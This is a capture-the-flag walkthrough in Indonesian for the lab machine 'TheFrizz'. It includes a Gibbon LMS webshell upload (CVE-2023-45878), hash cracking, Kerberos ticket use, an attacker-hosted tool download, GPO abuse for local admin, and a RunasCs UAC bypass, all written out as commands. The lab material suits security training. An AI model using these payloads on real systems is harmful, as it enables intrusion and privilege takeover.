





# TheFrizz Machine



#### Nmap output
```bash
# Nmap 7.94SVN scan initiated Mon Apr 14 16:27:47 2025 as: nmap -sC -sV -T4 -oA nmap/thefrizz 10.129.38.25
Nmap scan report for 10.129.38.25
Host is up (0.082s latency).
Not shown: 987 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
22/tcp   open  ssh           OpenSSH for_Windows_9.5 (protocol 2.0)
53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          Apache httpd 2.4.58 (OpenSSL/3.1.3 PHP/8.2.12)
|_http-title: Did not follow redirect to http://frizzdc.frizz.htb/home/
|_http-server-header: Apache/2.4.58 (Win64) OpenSSL/3.1.3 PHP/8.2.12
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-04-15 04:27:58Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: frizz.htb0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: frizz.htb0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
Service Info: Hosts: localhost, FRIZZDC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2025-04-15T04:28:04
|_  start_date: N/A
|_clock-skew: 6h59m59s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Apr 14 16:28:45 2025 -- 1 IP address (1 host up) scanned in 58.13 seconds
```


>**Penting!!!!**
Beberapa waktu saya stuck tidak bisa ke revshell, akhirnya setelah berdiskusi dengan teman dan melihat dengan seksama *-vvv* di ssh, saya dapat melewatinya.
CMIIW, nama domain frizzdc harus di urutan depan biar di resolve terlebih dahulu. Kerberos dan GSSAPI sensitif soal urutan dan nama domain. Kalau domain-nya salah atau urutannya ngaco, autentikasi bisa gagal total. Disinilah saya stuck beberapa waktu.

#### Tambahkan:
**/etc/hosts:**
```bash
$IP frizzdc.frizz.htb frizz.htb
```

**/etc/krb5.conf**
```bash
[libdefaults]
    default_realm = FRIZZ.HTB
    dns_lookup_kdc = false

[realms]
FRIZZ.HTB = {
    kdc = 10.129.38.25
    admin_server = 10.129.38.25
}
```

**/etc/resolv.conf**
```bash
nameserver 10.129.38.25
```

Jangan lupa samakan waktu antara server dan kamu. 

```bash
sudo ntpdate -s $IP
```



Kita bisa liat versi gibbon lalu search di google atau di exploit-db tentang gibbon dan saya menemukan **CVE-2023-45878**

#### Upload shell:
```bash
curl -X POST "http://frizzdc.frizz.htb/Gibbon-LMS/modules/Rubrics/rubrics_visualise_saveAjax.php" \
-H "Host: frizzdc.frizz.htb" \
--data-urlencode "img=image/png;asdf,PD9waHAgZWNobyBzeXN0ZW0oJF9HRVRbJ2NtZCddKTsgPz4K" \
--data-urlencode "path=shell.php" \
--data-urlencode "gibbonPersonID=0000000001"
```

Kalian dapat jalankan menggunakan curl ataupun dengan web
```bash
curl "http://frizzdc.frizz.htb/Gibbon-LMS/shell.php?cmd=whoami"
```



Kalian bisa revshell dan akan mendapatkan file config.php

```bash
$databaseServer = 'localhost';
$databaseUsername = 'MrGibbonsDB';
$databasePassword = 'MisterGibbs!Parrot!?1';
$databaseName = 'gibbon';
```

```bash
C:\xampp\mysql\bin>.\mysql.exe -u MrGibbonsDB -p "MisterGibbs!Parrot!?1" -e "USE gibbon; SELECT * FROM gibbonperson;" -E                                      
```
```bash
.\mysql.exe -u MrGibbonsDB -p"MisterGibbs!Parrot!?1" -e "USE gibbon; SELECT * FROM gibbonperson;" -E
*************************** 1. row ***************************                                                                                                                                                   
           gibbonPersonID: 0000000001                                                                                                                                                                                                      
                    title: Ms.                                                                                                                                                                                                             
                  surname: Frizzle                                                                                                                                                                                                         
                firstName: Fiona                                                                                                                                                                                                           
            preferredName: Fiona                                                                                                                                                                                                           
             officialName: Fiona Frizzle                                                                                                                                                                                                   
         nameInCharacters:                                                                                                                                                                                                                 
                   gender: Unspecified                                                                                                                                                                                                     
                 username: f.frizzle                                                                                                                                                                                                                                         
           passwordStrong: 067f746faca44f170c6cd9d7c4bdac6b******************                                                                                                                                                                              
       passwordStrongSalt: /aACFhikmN***********                                                                                                                                                                                                                          
       passwordForceReset: N
                   status: Full
                 canLogin: Y
      gibbonRoleIDPrimary: 001
          gibbonRoleIDAll: 001
                      dob: NULL
                    email: f.frizzle@frizz.htb
           emailAlternate: NULL
                image_240: NULL
            lastIPAddress: ::1
            lastTimestamp: 2024-10-29 09:28:59
        lastFailIPAddress: 10.10.16.26
        lastFailTimestamp: 2025-03-17 08:29:30
                failCount: 11
                 address1: 
         address1District: 
          address1Country: 
                 address2: 
```

Kita bisa crack menggunakan **john**

```bash
john --format=dynamic='sha256($s.$p)' --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```


**Kredensial:**
```bash
f.frizzle:Jenni_****_Magic**
```

**Dapetin tiket:**
``bash
impacket-getTGT frizz.htb/'f.frizzle':'Jenni_****_Magic**' -dc-ip frizzdc.frizz.htb  

export KRB5CCNAME=f.frizzle.ccache
```

**Masuk ke ssh menggunakan ticket:**
```bash
ssh f.frizzle@frizz.htb -k
```




Kita bisa gunakan bloodhound untuk melihat domain user lain, karena f.frizzle tidak memiliki privilege.



Setelah mencari saya mendapatkan $RE2XMEG.7z, kita bisa extract dan mendapatkan sebuah password untuk **M.SchoolBus**.


**Dapetin tiket:**
```bash
impacket-getTGT frizz.htb/m.schoolbus:'password' -dc-ip frizzdc.frizz.htb


export KRB5CCNAME=M.SchoolBus.ccache
```

Masuk ke ssh nya
```bash
ssh M.SchoolBus@frizz.htb -K
```

Vulnerability yang ada di M.SchoolBus adalah SharpGpoAbuse


Kalian bisa download di

```bash
https://github.com/byronkg/SharpGPOAbuse
```

*Menambahkan gpo name:**

```bash
New-GPO -Name "hades" | New-GPLink -Target "OU=DOMAIN CONTROLLERS,DC=FRIZZ,DC=HTB" -LinkEnabled Yes
```

Nyalakan http.server python kalian, lalu download dari machine korban

```bash
Invoke-WebRequest -Uri "http://10.10.*.*/SharpGPOAbuse.exe" -OutFile "SharpGPOAbuse.exe"
```


**Lalu jalankan:**
```bash
.\SharpGPOAbuse.exe --AddLocalAdmin --UserAccount M.SchoolBus --GPOName hades                    

gpupdate /force
 ```

Namun tetap tidak dapat membaca root.txt, butuh RunasCs untuk melakukan nya


**Link RunasCs:**
```bash
https://github.com/antonioCoco/RunasCs
```


```bash
.\RunasCs.exe "M.SchoolBus" "password" "cmd /c type C:\Users\Administrator\Desktop\root.txt" --bypass-uac --logon-type '8' --force-profile
```

Enjoy The Flag......

> **akhirnya saya tahu kenapa machine ini walaupun medium, tapi mendapatkan rating 2.2, lmao.**